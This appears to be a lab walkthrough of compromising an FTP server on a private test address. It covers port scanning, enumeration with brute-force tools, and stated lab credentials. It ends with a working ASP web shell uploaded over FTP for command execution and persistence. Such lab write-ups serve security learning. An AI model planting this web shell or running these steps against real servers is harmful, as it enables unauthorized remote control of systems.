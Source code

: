 # The Attack

## Step 1: Discovery

If you do not know an FTP server exists, the first step is to find it by scanning for open FTP ports (default: 21).

### Tools
- [Nmap](https://nmap.org/) — versatile port scanner  
- [Masscan](https://github.com/robertdavidgraham/masscan) — fast large-scale port scanner  
- [Shodan](https://www.shodan.io/) — search engine for internet-connected devices  

### Nmap Command

```bash
nmap -p 21 -sV 10.0.2.10
```

The results are posted below:  

![image](https://github.com/user-attachments/assets/71b6f87c-fa83-461a-b9ee-471c400a5b7f)


## Step 2: FTP Server Enumeration

---

## Objective

Once you have discovered an FTP server, the next step is to **enumerate** it. Enumeration involves gathering as much information as possible about the server, such as available users, permissions, files, and potential weaknesses.

---

## Why Enumerate?

- Identify valid usernames and passwords  
- Check for anonymous or guest login  
- Discover writable directories and files  
- Learn about the FTP server software/version  
- Find potential entry points for exploitation  

---

## Tools for FTP Enumeration

| Tool           | Description                                               |
|----------------|-----------------------------------------------------------|
| `ftp` client   | Built-in command line FTP client for manual interaction  |
| FileZilla      | Popular GUI FTP client for easier browsing                |
| Hydra          | Password brute forcing tool supporting FTP                |
| Medusa         | Another brute forcing tool with FTP module                |
| Nmap NSE Scripts | Scripts like `ftp-anon`, `ftp-brute` for automated checks |

---

## Manual FTP Enumeration

### Connect to the FTP server

```bash
ftp 10.0.2.10
```

We know the creds are adminuser/Iamadmin123 but if we didn't we could use Hydra to password bruteforce our way through.


## Step 3: Exploit and Persist

The next step I did was create a file called shell.asp that contained the code below:

```
<%
If Request.QueryString("cmd") <> "" Then
  Set shell = CreateObject("WScript.Shell")
  Set exec = shell.Exec(Request.QueryString("cmd"))
  output = exec.StdOut.ReadAll()
  Response.Write "<pre>" & output & "</pre>"
End If
%>
```

After logging into FTP again, I created a new directory, went into it and put the shell.asp file in there.

![image](https://github.com/user-attachments/assets/5189bd9e-edd8-4309-bd60-7ef39d143520)

After this, I can type in http://10.0.2.10/shell.asp and write whatever command I want after to maintain persistance, usually this is done by creating another user.
